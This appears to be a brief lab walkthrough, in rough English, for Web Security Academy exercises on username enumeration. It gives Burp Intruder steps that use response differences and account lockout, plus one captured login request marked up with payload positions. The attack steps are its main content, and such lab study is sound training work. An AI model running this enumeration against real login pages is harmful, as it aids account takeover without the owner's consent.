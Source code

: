 ## Username enumeration via subtly different responses

1.First try to loging show Invalid username or password 

2. Loging page to worng username and password and burp request and sand intruder and add username 
3. set payloads
4. intruder sub-tab Option and scroll GREP-EXTRACT click add button and scroll and select Invalid username or password. and ok
5. and run the attack


 ## Username enumeration via account lock
 
  1. First try to loging show Invalid username or password
  2. Loging page to worng username and password and burp request and sand intruder and add username password add $$ 
  
  ## EX 
  
    POST /login HTTP/1.1
    Host: ac9b1f711ed8b1e1c0220cdd005b006a.web-security-academy.net
    Cookie: session=gyv8YLrvVqRcgxsc6JaG8vIgnRezoHew
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 27
    Origin: https://ac9b1f711ed8b1e1c0220cdd005b006a.web-security-academy.net
    Referer: https://ac9b1f711ed8b1e1c0220cdd005b006a.web-security-academy.net/login  
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close

    username=§asif§&password=khan§§
    
 3. select Attack Type=Cluster bomb
 4. set paylods number 1 simple list and past paylods number 2 null paylods and paylods option select type 4
 5. intruder sub-tab Option and scroll GREP-EXTRACT click add button and scroll and select Invalid username or password. and ok
 6. start the attack 
    
    
    
    
    
    
    
    
    
    
